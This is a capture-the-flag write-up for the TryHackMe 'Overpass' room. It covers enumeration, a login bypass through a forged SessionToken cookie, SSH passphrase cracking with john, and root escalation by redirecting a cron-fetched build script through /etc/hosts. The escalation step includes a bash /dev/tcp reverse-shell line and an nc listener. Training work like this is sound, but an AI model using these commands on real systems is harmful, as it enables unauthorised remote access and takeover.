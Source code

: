 # Overpass Writeup

![bannner](/thm/images/overpass/banner.png)

Writeup for room - [Overpass](https://tryhackme.com/room/overpass)

## Scanning and Enumeration

Let's start with an nmap scan.

```
nmap <IP> -sV -sC -T4 -p-
```

![nmap scan](/thm/images/overpass/nmap.png)

We find 2 open ports, let's check port 80.

![homepage](/thm/images/overpass/homepage.png)

After looking through the pages and source code we really can't find anything that interesting. Let's check for hidden directories with gobuster.

![gobuster](/thm/images/overpass/gobuster.png)

Seems like there's an admin page.

![admin](/thm/images/overpass/admin.png)

We can't seem to get in with default credentials so we could try a bruteforce with hydra but the hints say we have to look at OWASP top 10.
When inspecting the source code we find a login.js so let's check that out.

![login](/thm/images/overpass/loginjs.png)

This functions is interesting because it tells us there's a cookie being used called "SessionToken".

![loginfunc](/thm/images/overpass/loginfunc.png)

Perhaps we can give this cookie a random value and it will let us in?

![cookie](/thm/images/overpass/sessioncookie.png)

Reload the page and we find a private ssh key for user james.

![sshkey](/thm/images/overpass/sshkey.png)

When we try to login with this private key we're asked for a passphrase so lets use john to crack it.
First we convert with ssh2john.py and then we crack it with the rockyou wordlist.

![john](/thm/images/overpass/john.png)

We cracked the passphrase, now we try again.
Don't forget to change the file permissions to 600 or ssh will complain.

![ssh](/thm/images/overpass/ssh.png)

## Privilege escalation

We're in! The user flag is the usual location and should be easy to find. Let's to try escalate our privilege.

sudo -l does not give us anything.
Perhaps there's an interesting file with SUID permission?

![suid](/thm/images/overpass/suid.png)

Again nothing we can use.

Let's check if we can exploit a cronjob.

![cronjob](/thm/images/overpass/cronjobs.png)

We can see there's a buildscript.sh run from overpass.thm/downloads/src. If we can edit /etc/hosts I can set overpass.thm to my IP and get root privilege with a reverse shell.

First we edit /etc/hosts and put our own IP in.

![etchosts](/thm/images/overpass/etchosts.png)

Then we go back our own machine and create the exact same folders: downloads/src

```
mkdir -p downloads/src
```
Create a buildscript.sh in the src folder and paste the reverse shell in there.

```
bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```
We listen on port 4444 for a connection from the reverse shell.

```
nc -lnvp 4444
```
![nc](/thm/images/overpass/nc.png)

At the same time we start the http server and wait.

```
sudo python -m SimpleHTTPServer 80
```
![http](/thm/images/overpass/httpserver.png)

Hope this writeup helped you!

